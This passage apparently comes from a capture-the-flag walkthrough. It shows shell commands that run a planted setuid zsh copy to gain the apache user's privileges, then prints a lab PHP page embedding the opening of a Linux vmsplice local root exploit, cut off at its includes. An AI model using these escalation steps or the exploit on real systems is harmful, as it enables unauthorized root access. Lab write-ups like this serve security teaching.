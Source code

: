 Run the shell:

<pre>
[bob@barney html]$ ls -l /bin/zsh
-rwxr-xr-x 1 root root 539592 2007-10-11 10:16 /bin/zsh
[bob@barney html]$ ls -l /tmp/zsh
-rwsr-sr-x 1 apache apache 539592 2019-10-03 11:27 /tmp/zsh
[bob@barney html]$ /tmp/zsh
[bob@barney]/var/www/html% id
uid=501(bob) gid=501(bob) euid=48(apache) egid=48(apache) groups=501(bob)
[bob@barney]/var/www/html% 
</pre>

Now that we have privilege escalated to the apache user, we can examine the source of the files in the `/var/www/html` directory:

<pre>
[bob@barney]/var/www/html% cat specialpage.php 
&lt;?php
require("cookie.inc.php");
//fix loopback redirect condition
if ($user != 42)
{
	header("Location: index.php");
	die();
}
?&gt;
&lt;html&gt;<head><title>Target Widgets - Special Page</title></head>
&lt;body bgcolor="white"&gt;
&lt;h1&gt;Target Widgets - Special Page</h1><hr>
Hey...you're the administrator!  I guess you forgot your root password again,
huh?  Well, that's okay!  Just use the km3 exploit (provided below) to get back in! (c:=
&lt;p&gt;<hr>
&lt;textarea rows="15" cols="70"&gt;
/*
 * jessica_biel_naked_in_my_bed.c
 *
 * Dovalim z knajpy a cumim ze Wojta zas nema co robit, kura.
 * Gizdi, tutaj mate cosyk na hrani, kym aj totok vykeca.
 * Stejnak je to stare jak cyp a aj jakesyk rozbite.
 *
 * Linux vmsplice Local Root Exploit
 * By qaaz
 *
 * Linux 2.6.17 - 2.6.24.1
 *
 * This is quite old code and I had to rewrite it to even compile.
 * It should work well, but I don't remeber original intent of all
 * the code, so I'm not 100% sure about it. You've been warned ;)
 * 
 * -static -Wno-format  
 */
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;errno.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;malloc.h&gt;
#include &lt;limits.h&gt;
#include &lt;signal.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/uio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;asm/page.h&gt;
#define __KERNEL__